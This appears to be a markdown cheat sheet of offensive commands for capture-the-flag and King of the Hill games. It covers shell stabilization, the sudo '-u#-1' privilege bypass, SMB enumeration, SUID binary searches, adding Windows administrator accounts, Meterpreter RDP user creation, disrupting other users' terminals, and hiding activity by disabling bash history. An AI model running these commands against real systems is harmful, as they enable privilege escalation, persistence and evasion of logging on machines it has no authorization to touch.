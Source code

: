 # Linux
### Stablilize Shell
1. ctrl+z
2. stty raw -echo
3. fg (press enter x2)
4. export TERM=xterm , for using `clear` command

### Spawn bash
* /usr/bin/script -qc /bin/bash 1&>/dev/null
* python -c 'import pty;pty.spawn("/bin/bash")'
* python3 -c 'import pty;pty.spawn("/bin/bash")'

### Vulnerable sudo version
`sudo -u#-1 whoami`

### Looking for smb shares

#### SmbClient
* smbclient -L `\\\\<ip\\`
* smbclient `\\\\<ip>\\<share>` accessing a share`

#### Smbmap
* `smbmap -u <username> -p <password> -H <ip>`

#### Smbget

* `smbget -R smb://<ip>/<share>` 

### Finding Binaries

* find . - perm /4000 (user id uid) 
* find . -perm /2000 (group id guid)

### Changing file attributes

chattr + i filename `making file immutable`<br/>
chattr -i filename `making file mutable`<br/>
lschattr filename `Checking file attributes`

### Uploading Files

scp file/you/want `user@ip`:/path/to/store <br/>
python -m SimpleHTTPServer [port] `By default will listen on 8000`<br/>
python3 -m http.server [port] `By default will listen on 8000`<br/>

# Windows

### Adding User
net user "USER_NAME" "PASS" /add
### Changing User's password
net user "USER_NAME" "NEWPASS"
### Adding User to Administrators
net localgroup administrators "USER_NAME" /add
### Changing File Permissions
CACLS files /e /p {USERNAME}:{PERMISSION}<br/>
Permissions:<br/>
1.R `Read`<br/>
2.W `Write`<br/>
3.C `Change`<br/>
4.F `Full Control`

### Set File bits
attrib +r filename `add read only bit`<br/>
attrib -r filename `remove read only bit`<br/>
attrib +h filename `add hidden bit `<br/>
attrib -h filename `remove hidden bit`

### Show hidden file/folder
dir /a `show all hidden files & folder`<br/>
dir /a:d `show only hidden folder`<br/>
dir /a:h `show only hidden files`<br/>

# Msfvenom
### List All Payloads
msfvenom -l payloads
### List Payload Format
msfvenom --list formats

# Meterpreter
### Adding user for RDP
run getgui -u [USER_NAME] -p [PASS]

# King Of The Hill (KoTH)
### Monitoring and Closing Shell (Linux)
* strace `debugging / tamper with processes`
* gbd `c/c++ debugger`
* script - records terminal activites
* w /who `check current pts ,terminal device`
* ps -t ps/pts-number `process monitoring`
* script /dev/pts/pts-number `montior terminal`
* cat /dev/urandom > /dev/pts/pts-number  2>/dev/null `prints arbitary text on terminal`
* pkill -9 -t pts/pts-number
### Send messages to logged in users
* echo "msg" > /dev/pts/pts-number `send message to specific user`<br />
* wall msg `boradcast message to everyone`<br />
  
### Closing Session (Windows)
* quser
* logoff id|user_name  


export HISTFILE=/dev/null found this it might help you out a little when doing KOTH it basically stops bash logging your commands in the ~/.bash_history file

